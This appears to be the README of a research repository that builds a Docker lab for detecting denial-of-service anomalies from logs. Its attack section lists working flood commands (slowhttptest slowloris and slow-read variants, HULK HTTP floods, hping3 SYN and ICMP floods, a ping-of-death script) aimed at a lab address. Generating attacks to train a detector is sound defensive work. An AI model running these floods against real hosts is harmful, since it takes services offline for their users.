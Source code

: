 # Intelligent-forensics-for-the-automatic-anomaly-detection-in-distributed-infrastructures

![architecture](./images/virtual.png)

# NEW VERSION

## Start the network

To start the network run
```
docker-compose up -d
```
in newenvironment folder
## Start the experiment

To start the experiment enter the servidor container
```
docker exec -it newenvironment_servidor_1 /bin/bash
```
and run
```
python3 /servidor/output/DoSdetector/1clock.py
```

## Attack

To start the attack, enter the attacker:
```
docker exec -it newenvironment_attacker_1 /bin/bash
```
### Slowhttptest
```
slowhttptest -H -g -c 5260 -i 10 -r 30 -t GET -u http://10.100.0.2:3000/ -x 24 -p 3
```
#### SLOWLORIS
```
slowhttptest -c 1000 -H -g -i 10 -r 200 -t GET -u http://10.100.0.2:3000/ -x 24 -p 3
```
#### SLOW HTTP POST
```
slowhttptest -c 3000 -B -g -i 110 -r 200 -s 8192 -t POST -u http://10.100.0.2:3000/ -x 10 -p 3
```
#### RANGE HEADER
```
slowhttptest -R -u http://10.100.0.2:3000/ -t HEAD -c 1000 -a 10 -b 3000 -r 500
```
#### SLOW READ
```
slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u http://10.100.0.2:3000/ -p 3
```
### HULKv3 - HTTP flood attack
```
python3 HULK-v3/hulk_launcher.py server http://10.100.0.2:3000
```
enter another terminal with:
```
docker exec -it newenvironment_attacker_1 /bin/bash
```
and run:
```
python3 HULK-v3/hulk_launcher.py client -n 10
```
### HULKBarry Shteiman
```
python3 hulkBasic/1hulk.py http://10.100.0.2:3000
```

### hping3
#### SYN flood
```
hping3 -S -p 3000 --flood 10.100.0.2
```
#### ICMP flood
```
hping3 -p 3000 --icmp --flood 10.100.0.2 
```
#### Ping od Death
```
python3 pingOfDeath/pingOfDeath.py

```
## Results

To see the analysis enter the admin-fluentd container:
```
docker exec -it newenvironment_admin-fluentd_1 /bin/bash
```
enter the folder output to see the logs or the folder shared-volume/prediction/livePrediction to see the live result in the file named with the current date.
Otherwise, it is possible to analyse a time interval of a specific log file present in output/dos with:
```
python3 /shared-volume/prediction/intervalModelUser.py /output/DoS/[nameofthelog.log]
```
e.g.
```
python3 /shared-volume/prediction/intervalModelUser.py /output/DoS/dos.log.20240521.log
```
Finally the program will ask to insert a time interval to analyse.
It is also possible to predict a single line of log by running manualModelUser.py.











# advices
If the images gets modified by changing the dockerfiles, to be effective the image should be mounted again or simply deleted before using again "docker-compose up -d". Fast way is deleting the images.
